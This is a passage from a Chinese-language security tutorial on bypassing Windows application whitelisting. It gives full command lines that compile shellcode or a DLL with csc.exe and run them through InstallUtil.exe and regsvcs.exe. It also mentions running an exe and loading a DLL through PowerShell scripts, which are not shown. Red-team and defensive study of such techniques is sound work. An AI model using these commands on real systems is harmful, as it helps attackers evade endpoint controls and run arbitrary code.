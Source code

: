 在之前的文章《利用白名单绕过限制的更多测试》对此有过详细介绍

上传shellcode.cs,执行如下命令：

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe  /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

如图

![p19](http://drops.javaweb.org/uploads/images/69c572626bd1e1b4a7fe064818cdcaffd70e944f.jpg)

**方法5：**

如果系统支持.net4.0,可以利用regsvcs

参考地址：

[https://gist.github.com/subTee/fb09ef511e592e6f7993](https://gist.github.com/subTee/fb09ef511e592e6f7993)

上传key.snk和regsvcs.cs，执行如下命令：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library 

/out:regsvcs.dll /keyfile:key.snk regsvcs.cs
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe regsvcs.dll

```

### 2.执行exe

利用Powershell

在之前的文章对通过Powershell执行exe有过详细介绍，对其中的ps1文件细节作简单修改保存为2-CodeExecution-Exe.ps1

进入Powershell环境，然后在里面执行2-CodeExecution-Exe.ps1的所有内容

如图

![p20](http://drops.javaweb.org/uploads/images/fef779dac5d4d0e7acf0eb972a49b7312b917ebf.jpg)

### 3、加载dll

利用Powershell

在之前的文章对通过Powershell执行exe有过详细介绍，对其中的ps1文件细节作简单修改保存为3-CodeExecution-dll.ps1

进入Powershell环境，然后在里面执行3-CodeExecution-dll.ps1的所有内容

如图

![p21](http://drops.javaweb.org/uploads/images/e523cc91badb73abac1a1a48f45e11940d11d5c5.jpg)
